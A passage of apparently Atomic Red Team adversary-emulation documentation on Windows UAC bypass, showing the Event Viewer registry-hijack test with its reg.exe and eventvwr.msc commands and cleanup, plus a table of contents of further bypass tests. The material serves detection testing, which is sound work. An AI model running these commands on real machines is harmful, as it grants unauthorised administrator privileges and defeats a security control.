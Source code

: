 - [Atomic Test #7 - Bypass UAC using sdclt DelegateExecute](#atomic-test-7---bypass-uac-using-sdclt-delegateexecute)

- [Atomic Test #8 - Disable UAC using reg.exe](#atomic-test-8---disable-uac-using-regexe)

- [Atomic Test #9 - Bypass UAC using SilentCleanup task](#atomic-test-9---bypass-uac-using-silentcleanup-task)


<br/>

## Atomic Test #1 - Bypass UAC using Event Viewer (cmd)

auto_generated_guid: 5073adf8-9a50-4bd9-b298-a9bd2ead8af9

Bypasses User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
Upon execution command prompt should be launched with administrative privelages
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "#{executable_binary}" /f
cmd.exe /c eventvwr.msc
```

#### Cleanup Commands:
```cmd
reg.exe delete hkcu\software\classes\mscfile /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Bypass UAC using Event Viewer (PowerShell)

auto_generated_guid: a6ce9acf-842a-4af6-8f79-539be7608e2b

PowerShell code to bypass User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
Upon execution command prompt should be launched with administrative privelages
**Supported Platforms:** Windows
